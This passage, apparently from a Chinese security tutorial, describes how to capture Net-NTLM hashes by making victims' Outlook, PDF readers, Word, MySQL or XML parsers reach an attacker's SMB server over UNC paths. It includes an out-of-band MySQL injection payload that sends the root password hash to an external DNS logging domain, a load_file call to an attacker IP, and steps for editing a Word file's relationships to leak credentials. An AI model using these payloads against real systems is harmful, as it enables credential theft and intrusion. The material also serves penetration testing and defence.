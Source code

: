 当收件人打开outlook查看邮件的时候
![](https://p2.ssl.qhimg.com/t01d0355f58c5bfc88e.png)
我们就收到net-ntlm hash了
![](https://p2.ssl.qhimg.com/t0149fd2b4bead9a8cb.png)
### PDF
PDF规范允许为GoTobe和GoToR条目加载远程内容。PDF文件可以添加一项功能，请求远程SMB服务器的文件。我们直接使用三好学生的脚本https://github.com/3gstudent/Worse-PDF
![](https://p0.ssl.qhimg.com/t014e210fc585268122.png)
我们就收到net-ntlm hash
![](https://p3.ssl.qhimg.com/t013049dfc7f0793e76.png)
用户使用PDF阅读器打开，如果使用IE或是Chrome打开PDF文件，并不会执行。
在实际测试中使用Adobe,发现会有提示
![](https://p1.ssl.qhimg.com/t01a7438060c6b7fcad.png)
### office
首先新建一个word，贴近一张图片
![](https://p1.ssl.qhimg.com/t0177a0ec884d7c213f.png)
然后用7zip 打开(没测试其他软件，可自行测试)
进入word\_rels，修改document.xml.rels
![](https://p3.ssl.qhimg.com/t01b3ac738eafbe3ef8.png)
可以看到Target参数本来是本地的路径
![](https://p3.ssl.qhimg.com/t014b72910273a063aa.png)
修改为UNC路径，然后加上TargetMode="External"
![](https://p4.ssl.qhimg.com/t0122905cebda3dbc40.png)
当打开word的时候,我们就拿到net-ntlm hash
![](https://p0.ssl.qhimg.com/t016a7347543991009d.png)
### MySQL
我们知道在MySQL注入的话，是可以通过带外通信把数据带出来。语法如下。
```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```
需要具备load_file权限，且没有secure_file_priv的限制(5.5.53默认是空，之后的话默认为NULL就不好利用了,不排除一些管理员会改)
仔细观察我们会发现LOAD_FILE是支持UNC路劲
我们构造
```
select load_file('\\\\172.16.100.1\\mysql');
```
拿到net-ntlm hash
![](https://p5.ssl.qhimg.com/t0171522a2d96fbcc32.png)
### XXE&&SSRF
#### XXE
在xxe里面加载外部文件的时候，如果路径支持unc路径的话，是能拿到net-ntlm hash的。
这里使用javajavax.xml.parsers进行测试,测试代码如下
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
DocumentBuilder db = dbf.newDocumentBuilder();
Document doc = db.parse(request.getInputStream());
```
![](https://p0.ssl.qhimg.com/t0196371e3c0a838947.png)
成功打回net-ntlm hash
![](https://p1.ssl.qhimg.com/t0148cdbaede51f0c63.png)
如果不支持UNC，可再测试http协议。
![](https://p4.ssl.qhimg.com/t01a738a620adf08b5f.png)